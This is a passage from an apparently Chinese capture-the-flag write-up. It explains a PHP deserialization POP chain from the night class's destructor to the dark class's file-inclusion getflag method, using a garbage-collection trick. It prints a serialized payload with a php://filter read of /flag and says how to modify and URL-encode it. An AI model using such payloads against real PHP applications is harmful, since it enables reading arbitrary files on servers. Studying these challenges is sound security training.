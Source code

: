 我们来理顺一下上面这条pop链的构造过程，首先这条链子的终点为dark类中的getflag方法，里面存在文件包含，起点则是night类中的销毁方法，其中的一个比较关键的点就是使用echo来触发toString方法。

然后就是需要使用GC垃圾回收机制来绕过后面丢出来的一个报错，从而触发destruct方法

输出

```php
a:2:{i:0;O:5:"night":1:{s:5:"night";O:3:"day":1:{s:3:"day";O:4:"dark":1:{s:4:"dark";O:5:"light":1:{s:5:"light";O:3:"day":1:{s:3:"day";O:4:"dark":1:{s:4:"dark";s:49:"php://filter/convert.base64-encode/resource=/flag";}}}}}}i:1;i:0;}
```

需要将最后的i:1改成i:0，然后进行url编码就可以把链子打通了。